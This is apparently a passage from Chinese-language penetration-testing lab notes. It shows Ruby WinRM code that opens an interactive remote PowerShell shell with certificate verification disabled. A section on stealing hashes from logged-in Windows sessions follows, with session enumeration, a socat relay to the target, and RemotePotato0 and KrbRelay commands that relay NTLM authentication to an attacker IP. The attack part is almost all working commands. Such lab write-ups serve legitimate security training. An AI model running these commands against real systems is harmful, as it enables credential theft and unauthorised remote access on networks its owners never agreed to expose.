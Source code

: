 ```ruby
  client_cert: 'amanda.cer',  
  client_key: 'amanda.key',   
  key_pass: '123456',         
  :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```

![](photos/Pasted%20image%2020240309210753.png)


### 有登录的会话偷窃 hash
查询当前 Windows 系统上的所有用户会话
```cmd
qwinsta *
```
不能运行，可以尝试 RunasCs.exe
```powershell
.\Run.exe x x qwinsta -l 9
```

**0x01 RemotePotato0 v 1.2**
https://github.com/antonioCoco/RemotePotato0
本地建立监听，转发回靶机9999端口
```bash
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.129.57.132:9999
```
偷取 hash
```powershell
.\RemotePotato0.exe -m 2 -s 1 -x 10.10.14.50 -p 9999
```

**0x02 KrbRelay**
https://github.com/cube0x0/KrbRelay/tree/main
```bash
.\Run.exe x x -l 9 "C:\programdata\KrbRelay.exe -session 1 -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm"
```
